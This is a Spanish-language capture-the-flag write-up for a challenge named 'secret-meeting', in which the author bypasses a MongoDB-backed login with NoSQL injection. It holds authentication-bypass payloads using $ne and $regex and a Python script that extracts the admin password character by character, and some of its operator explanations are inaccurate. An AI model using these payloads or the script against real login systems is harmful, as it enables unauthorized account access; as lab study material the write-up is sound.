



# secret-meeting

Lo primero que hago es montar el reto en local, y echar un primer vistazo a los archivos. Hay dos contenedores interconectados, uno es la pagina web, y el otro es una base de datos en MongoDB (NoSQL). Veo que la pagina web esta montada en el archivo `server.js` donde se están introduciendo unos usuarios a la base de datos, y carga el HTML de la misma.Si interceptamos la peticion de login con BurpSuit, vemos la siguiente información.



Pienso que al ser MongoDB, tiene mas velocidad a la hora de hacer consultas, sin embargo no es tan seguro como MySQL, por lo que podremos intentar hacer alguna inyección de NoSQL. Algunos comandos que podemos usar son:

- `[$ne]` → not equal
- `[$where]` → donde
- `[$regex]` → equal
- `[eq]` → equal

No hay funciones que me pueda mostrar la contraseña del usuario administrador. Lo que si podemos ver es que si hacemos una petición para que el usuario sea el administrador y ponemos que la contraseña sea distinta de cualquier cosa nos podremos autenticar como administrador. Esta sería la querry que podemos hacer:

`username[$eq]=admin&password[$ne]=1`



Vemos que se nos a autenticado, aunque no conseguimos nada respecto a la flag.

Debemos intentar encontrar un comando que nos indique si la flag que vamos introduciendo es correcta. Otra manera de autenticarnos de manera exitosa es mediante el comando `[$regex]` de la siguiente manera:

`username=admin&password[$regex]=.*`



Esta querry indica mediante el `.*` para indicar cualquier contraseña asociada al parametro `password`.

Sabiendo que la flag empieza por `URJC{` podemos introducir eso como parametro para `password[$regex]` seguido de `.*` para indicar que hay más caracteres. 

- querry: `username=admin&password[$regex]=URJC{.*`

Y el codigo de la respuesta es `200 OK`.

Se me ocurre hacer fuerza bruta letra por letra hasta conseguir que acepte un `}` y entonces sabré cual es la contraseña de administrador.

Podemos hacer un script sencillo con python que haga las peticiones por nosotros, y dependiendo de cual sea el codigo de la respuesta, guarde la letra empleada o la descarte.

```python
import requests
import string

url = "http://localhost:12103/login"  # Reemplaza con la URL real
password = "URJC{"
characters = "}{abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"
#characters = list(string.ascii_letters) + list(string.digits) + list(string.punctuation) + list(string.whitespace)

while True:
    found = False
    for char in characters:
        test_password = f"^{password}{char}.*"
        data = {
            "username": "admin",
            "password[$regex]": test_password  # Ajuste para que use parámetros codificados
        }
        # Enviar datos como x-www-form-urlencoded
        response = requests.post(url, data=data)

        print(f"Probing with: {test_password}")
        print(f"Status code: {response.status_code}")

        if response.status_code == 200:  # Cambia esto según cómo responde tu servidor
            password += char
            print(f"[+] Password so far: {password}")
            found = True
            break

    if not found:  # Si no encontramos más caracter válidos, la contraseña está completa
        print(f"[!] Password completo: {password}")
        break
```

Tras ejecutarlo, obtenemos lo siguiente:

[Screen Recording 2024-11-25 at 23.14.38.gif](image/vid_01.gif)

Está claro que al hacerlo de manera local, no encontramos la flag real del reto. Modificando las lineas del script, en las cuales realiza la conexión a la web de login, ponemos la proporcionada por el CTFd, y tras un rato, nos devuelve la siguiente flag:

`URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s`

Si nos fijamos en las flags de otros retos, vemos que todos sigue una misma estructura: `URJC{phrase_token}`.

El token, es un código único, el cual es el que nos falta en este reto, pues una vez tenemos la frase, vendría un guión bajo, seguido del token. Si con burbsuit intentamos hacer esta petición de login: `username[$eq]=admin&password[$regex]=URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s_.*` 

La página web nos devuelve el código de estado `401 Unauthorized`.

El problema viene dado porque ya no puede continuar comprobando. En este punto, ninguna letra, ni minuscula ni ningun número da una petición `200 OK`.